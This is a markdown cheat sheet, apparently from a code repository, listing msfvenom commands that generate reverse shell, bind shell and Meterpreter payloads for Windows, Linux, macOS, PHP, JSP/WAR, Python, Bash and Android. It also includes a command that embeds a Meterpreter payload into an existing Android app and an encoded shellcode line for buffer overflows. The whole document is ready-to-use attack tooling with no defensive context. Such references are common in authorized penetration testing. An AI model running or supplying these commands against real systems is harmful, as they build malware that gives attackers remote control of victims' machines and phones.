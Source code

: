# MSFVenom

#### Windows Meterpreter Staged Reverse TCP (x64)
`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<ip address> LPORT=<port> -f exe -o reverse.exe`

#### Windows Meterpreter Stageless Reverse TCP (x64)
`msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<ip address> LPORT=<port> -f exe -o reverse.exe`

#### Windows Staged Reverse TCP (x64)
`msfvenom -p windows/x64/reverse_tcp LHOST=<ip address> LPORT=<port> -f exe -o reverse.exe`

#### Windows Stageless Reverse TCP (x64)
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip address> LPORT=<port> -f exe -o reverse.exe`

#### Linux Meterpreter Staged Reverse TCP (x64)
`msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<ip address> LPORT=<port> -f elf -o reverse.elf`

#### Linux Meterpreter Stageless Reverse TCP (x64)
`msfvenom -p linux/x64/shell_reverse_tcp LHOST=<ip address> LPORT=<port> -f elf -o reverse.elf`

#### Windows Bind TCP ShellCode - BOF
`msfvenom -a x86 --platform Windows -p windows/shell/bind_tcp -e x86/shikata_ga_nai -b '' -f python -v notBuf -o shellcode`

#### macOS Meterpreter Staged Reverse TCP (x64)
`msfvenom -p osx/x64/meterpreter/reverse_tcp LHOST=<ip address> LPORT=<port> -f macho -o shell.macho`

#### macOS Meterpreter Stageless Reverse TCP (x64)
`msfvenom -p osx/x64/meterpreter_reverse_tcp LHOST=<ip address> LPORT=<port> -f macho -o shell.macho`

#### macOS Stageless Reverse TCP (x64)
`msfvenom -p osx/x64/shell_reverse_tcp LHOST=<ip address> LPORT=<port> -f macho -o shell.macho`

#### php Meterpreter Stageless Reverse TCP
`msfvenom -p php/meterpreter_reverse_tcp LHOST=<ip address> LPORT=<port> -f raw -o shell.php`

#### php Reverse PHP
`msfvenom -p php/reverse_php LHOST=<ip address> LPORT=<port> -o shell.php`

#### jsp Stageless Reverse TCP
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip address> LPORT=<port> -f raw -o shell.jsp`

#### WAR Stageless Reverse TCP
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip address> LPORT=<port> -f war -o shell.war`

#### Android Meterpreter Reverse TCP
`msfvenom --platform android -p android/meterpreter/reverse_tcp lhost=<ip address> lport=<port> R -o malicious.apk`

#### Android Meterpreter Embed Reverse TCP
`msfvenom --platform android -x template-app.apk -p android/meterpreter/reverse_tcp lhost=<ip address> lport=<port> -o payload.apk`

#### Python Stageless Reverse TCP
`msfvenom -p cmd/unix/reverse_python LHOST=<ip address> LPORT=<port> -f raw -o shell.py`

#### Bash Stageless Reverse TCP
`msfvenom -p cmd/unix/reverse_bash LHOST=<ip address> LPORT=<port> -f raw -o shell.sh`

#### Pivot
`msfvenom -p windows/meterpreter/reverse_named_pipe PIPEHOST=<ip address> PIPENAME=<name-of-pipe> -f exe -o <output file>`
